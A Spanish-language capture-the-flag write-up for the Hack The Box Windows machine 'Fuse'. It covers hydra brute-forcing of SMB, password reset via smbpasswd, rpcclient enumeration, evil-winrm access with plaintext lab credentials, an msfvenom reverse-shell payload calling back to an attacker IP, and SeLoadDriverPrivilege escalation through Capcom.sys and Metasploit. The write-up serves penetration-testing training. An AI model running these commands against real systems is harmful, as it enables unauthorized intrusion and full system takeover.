

# Fuse

**OS**: Linux \
**Dificultad**: Medio \
**Puntos**: 30

## Resumen

- Hydra Brute force
- Smbpasswd change password
- Rpcclient enumeracion
- SeLoadDriverPrivilege priv esc

## Nmap Scan

`nmap -sV -sC -Pn 10.10.10.193`

```
Nmap scan report for fuse.fabricorp.local (10.10.10.193)
Host is up (0.075s latency).
Not shown: 988 filtered ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-06-13 19:21:37Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
```

## Enumeración

Accediendo al puerto 80 desde el navegador nos muestra un nombre de dominio. Lo agregamos a nuestro archivo **hosts**.


Una vez agregado el dominio podemos acceder a la página web y enumerando los apartados se encuentran nombres de usuarios en el apartado logs, los cuales nos pueden ayudar a generar una lista de posibles usuarios en el sistema.


Copiamos los nombres de usuario que en total son 5 y posteriormente generamos una lista con palabras del sistema utilizando **cewl**.

`cewl -w passwords.txt --with-numbers http://fuse.fabricorp.local/papercut/logs/html/index.htm`


Utilizamos **hydra** para hacer fuerza bruta al servicio smb.

`hydra -L usernames.txt -P passwords.txt 10.10.10.193 smb`


Si intentamos conectarnos al servicio smb con las credenciales descubiertas veremos un mensaje que dice **NT_STATUS_PASSWORD_MUST_CHANGE**.


### Smbpasswd / Rpcclient

Podemos cambiar el password de alguno de los usuarios con la herramienta **smbpasswd**.

`smbpasswd -r 10.10.10.193 -U tlavel`

```
Old SMB password: Fabricorp01
New SMB password: Doom123456
Retype new SMB password: Doom123456
```


Nos conectamos con **rpccliente** para enumerar los usuarios y las impresoras.

`rpcclient -U tlavel 10.10.10.193`


Se visualizan más usuarios y un password. Haremos el mismo procedimiento anterior para encontrar a que usuario pertenece ese password.

`hydra -L usernames.txt -p '$fab@s3Rv1ce$1' 10.10.10.193 smb`


Obtenemos una shell a través del servicio **winrm** con **evil-winrm**.

`evil-winrm -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1' -s tools/`


## Escalada de Privilegios

Podemos ver que el usuario **svc-print** tiene privilegios de **SeLoadDriverPrivilege**.


### SeLoadDriverPrivilege

Investigando llegamos a este [articulo](https://www.tarlogic.com/blog/explotacion-de-la-directiva-cargar-y-descargar-controladores-de-dispositivo-seloaddriverprivilege/) que explica la forma de tomar ventaja de los privilegios con los que contamos.

Subimos al sistema los archivos [Capcom.sys/eopdriverloader.exe](exploit).

- `upload tools/Capcom.sys`
- `upload tools/eopdriverloader.exe`



Editamos el módulo de metasploit llamado **capcom_sys_exec.rb**.

`sudo nano /usr/share/metasploit-framework/modules/exploits/windows/local/capcom_sys_exec.rb`


Creamos un reverse shell con **msfvenom**, la subimos al sistema, configuramos metasploit y ejecutamos nuestra shell.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.251 LPORT=1234 -f exe -o shell.exe
upload tools/shell.exe

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.10.14.251
set lport 1234
run

.\shell
```


Ejecutamos el archivo **eopdriverloader.exe**.

`.\eopdriverloader.exe System\CurrentControlSet\Doom C:\temp\Capcom.sys`


Configuramos el exploit [capcom_sys_exec](https://www.rapid7.com/db/modules/exploit/windows/local/capcom_sys_exec).

```
background
set session 1
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.10.14.251
set lport 4444
```


Ejecutamos el exploit.

`run`


## Referencias
https://www.tarlogic.com/blog/explotacion-de-la-directiva-cargar-y-descargar-controladores-de-dispositivo-seloaddriverprivilege/ \
https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#seloaddriverprivilege \
https://github.com/TarlogicSecurity/EoPLoadDriver/ \
https://gitlab.com/th3d00msl4y3r/windows-exploits/-/tree/master/EoPLoadDriver \
https://www.rapid7.com/db/modules/exploit/windows/local/capcom_sys_exec \
https://github.com/rapid7/metasploit-framework/pull/7363
